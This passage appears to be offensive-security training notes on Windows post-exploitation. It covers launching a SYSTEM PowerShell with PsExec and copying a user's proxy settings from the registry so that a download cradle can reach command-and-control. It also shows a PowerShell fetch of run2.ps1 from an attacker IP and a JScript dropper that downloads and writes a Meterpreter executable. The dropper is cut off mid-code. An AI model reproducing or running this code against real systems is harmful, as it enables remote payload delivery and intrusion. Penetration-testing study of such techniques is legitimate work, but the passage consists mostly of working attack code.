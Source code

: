 ## Give Me A SYSTEM Proxy

Launch a SysInternals `PsExec`SYSTEM integrity 32-bit PowerShell ISE command prompt

* -s: run it as `SYSTEM`
* -i: make it interactive with the current desktop.

```bat
PsExec.exe -s -i C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell_ise.exe
```

A PowerShell download cradle running in `SYSTEM` integrity level context does not have a proxy configuration set and may fail to call back to our C2 infrastructure.

=> Create a proxy configuration for the built-in `SYSTEM` account by copying a configuration from a standard user account.

Proxy settings for each user are stored in the registry at 
`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\InternetSettings`

When navigating the registry, the `HKEY_CURRENT_USER` registry hive is mapped according to the user trying to access it, but when navigating the registry as `SYSTEM`, no such registry hive exists.

The `HKEY_USERS` registry hive always exists and contains the content of all user `HKEY_CURRENT_USER` registry hives split by their respective **SIDs**. => Map the `HKEY_USERS` registry hive with `New-PSDrive`

Any SID starting with `S-1-5-21-` is a user account exclusive of built-in accounts.

```pwsh
New-PSDrive -Name HKU -PSProvider Registry -Root HKEY_USERS | Out-Null
$keys = Get-ChildItem 'HKU:\'
ForEach ($key in $keys) {if ($key.Name -like "*S-1-5-21-*") {$start = $key.Name.substring(10);break}}
$proxyAddr=(Get-ItemProperty -Path "HKU:$start\Software\Microsoft\Windows\CurrentVersion\Internet Settings\").ProxyServer

[system.net.webrequest]::DefaultWebProxy = new-object System.Net.WebProxy("http://$proxyAddr")
$wc = new-object system.net.WebClient
$wc.DownloadString("http://192.168.119.120/run2.ps1")
```

# Client Side Code Execution With Windows Script Host

The default application for `.js` files is the `Windows-Based Script Host`

## Jscript Meterpreter Dropper

Use the `Jscript` file format to execute `Javascript` on Windows targets through the Windows Script Host.

### run.js

```js
var url = "http://192.168.119.120/met.exe"
var Object = WScript.CreateObject('MSXML2.XMLHTTP');

Object.Open('GET', url, false);
Object.Send();

if (Object.Status == 200)
{
    var Stream = WScript.CreateObject('ADODB.Stream');

    Stream.Open();
    Stream.Type = 1;
    Stream.Write(Object.ResponseBody);
```
